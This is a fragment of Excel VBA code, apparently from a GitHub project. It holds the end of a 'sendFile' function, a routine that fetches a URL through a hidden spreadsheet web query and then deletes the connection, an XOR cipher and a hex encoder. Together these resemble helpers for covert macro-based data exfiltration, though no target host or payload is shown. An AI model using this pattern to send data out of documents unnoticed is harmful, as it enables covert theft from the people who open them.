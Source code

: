 ```vb
  Next i
  sendFile = tmpStr
End Function

Function req(url As String)
  With ActiveSheet.QueryTables.Add(Connection:=url, Destination:=Range("A1"))
    .PostText = ""
    .PreserveFormatting = True
    .RefreshOnFileOpen = False
    .BackgroundQuery = False
    .RefreshStyle = xlOverwriteCells
    .WebSelectionType = xlEntirePage
    .WebPreFormattedTextToColumns = True
    .Refresh BackgroundQuery:=False
    .WorkbookConnection.Delete
    End With
End Function

Public Function Cipher(Text As String, Key As String) As String
  Dim bText() As Byte
  Dim bKey() As Byte
  Dim TextUB As Long
  Dim KeyUB As Long
  Dim TextPos As Long
  Dim KeyPos As Long
  
  bText = StrConv(Text, vbFromUnicode)
  bKey = StrConv(Key, vbFromUnicode)
  TextUB = UBound(bText)
  KeyUB = UBound(bKey)
  For TextPos = 0 To TextUB
    bText(TextPos) = bText(TextPos) Xor bKey(KeyPos)
    If KeyPos < KeyUB Then
      KeyPos = KeyPos + 1
    Else
      KeyPos = 0
    End If
  Next TextPos
  Cipher = StrConv(bText, vbUnicode)
End Function

Function ByteArrayToHexStr(b() As Byte) As String
   Dim n As Long, i As Long

   ByteArrayToHexStr = Space$(3 * (UBound(b) - LBound(b)) + 2)
   n = 1
   For i = LBound(b) To UBound(b)
      Mid$(ByteArrayToHexStr, n, 2) = Right$("00" & Hex$(b(i)), 2)
      n = n + 3
   Next
   ByteArrayToHexStr = Replace(ByteArrayToHexStr, " ", "")
End Function
```
